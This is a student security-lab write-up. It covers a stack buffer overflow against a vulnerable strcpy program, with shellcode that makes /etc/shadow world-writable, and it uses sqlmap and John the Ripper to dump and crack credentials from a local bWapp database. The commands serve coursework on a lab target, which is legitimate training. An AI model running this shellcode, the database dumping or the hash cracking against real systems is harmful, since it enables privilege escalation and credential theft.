








# TEST
# Task 1: Software buffer overflow attack
 
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in C. This shellcode executes chmod 777 /etc/shadow without having to sudo to escalate privilege
```
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
"\x3a\x56\x81\xc6\x23\x45\x35\x21"
"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
"\x2f\x65\x74\x63\x83\xec\x0c\x89"
"\xe3\x66\x68\xff\x01\x66\x59\xb0"
"\x0f\xcd\x80";

void main() {
    int (*ret)() = (int(*)())code;
}
```
**Question 1**:
- Compile both C programs and shellcode to executable code. 
- Conduct the attack so that when C executable code runs, shellcode willc also be triggered. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.

**Answer 1**:

- We first create a vuln.c and shellcode.c file and fill the content with the given C program

```
    nano vuln.c
    nano shellcode.c

    # compile
    gcc -m32 vuln.c -o vuln -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
    gcc -m32 shellcode.c -o shellcode -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
```

- Applying the Code Injection method, the flow will following the steps:
    + Retrieve bytes code from our malicious program
    + Determine the buffer offset
    + Determine the location for shellcode
    + Craft the payload
    + Proceed the exploitation

- We'll proceed using objdump to get the bytes code from our compiled shellcode

```
    objdump -d ./shellcode|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

- Next we use pattern to determine the offset
```
    pattern create 200 pattern.txt
```
- Run the program with the pattern.txt as input to oerflow the buffer
```
    r $(python -c "print(open('pattern.txt', 'r').read())")
```



- Program crashed at 0x41412d41, use pattern offset to see the offset
```
    pattern offset 0x41412d41
```



- Offset at 20 which means we'd need 20 bytes to reach EBP
- payload = padding + return_address + nop_sled + shellcode

# Task 2: Attack on the database of bWapp 
- Install bWapp (refer to quang-ute/Security-labs/Web-security). 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases

**Answer 1**:

To retrieve all the available databases on the target website, we use sqlmap with the argument `--dbs`.

Firts step, we need to determine the valuable parameter to attack. When open the webpage, we were redirected to a login page, let's input a random username and password and check f12 networks to see what the endpoint is



Alright so our target endpoint is
`http://localhost:3128/unsafe_home.php?username=test&Password=test`

Replace the port 3128 with port 80 since we're executing the command from inside docker. Therefore the command will be

``` 
    sqlmap -u "http://localhost:80/unsafe_home.php?username=test&Password=test" --dbs
```



**Question 2**: Use sqlmap to get tables, users information

**Answer 2**:

After we retrieved the available databases (information_schema and sqllab_users), next exploit further the sqllab_users table

``` 
    sqlmap -u "http://localhost:80/unsafe_home.php?username=test&Password=test" -D sqllab_users --tables
    sqlmap -u "http://localhost:80/unsafe_home.php?username=test&Password=test" -D sqllab_users -T credential --dump
```

On output, it can be observed that there's only one table (credential) in the sqllab_users database, and using the second command we can retrieve the full information from the credential table with the password column still being hashed.




**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit

**Answer 3**:

In Answer 2, we already dumpped and stored the hashed password to a separate file for further exploit.

To identity the hash algorithm, we'll use hashid, a library in python.

```
    hashid -mj hash_pw.txt
```



Hashid suggest that the encrypt can be crack by using john specifically the format raw-sha1

```
    john --format=Raw-SHA1 hash_pw.txt
```

All the passwords have been cracked!

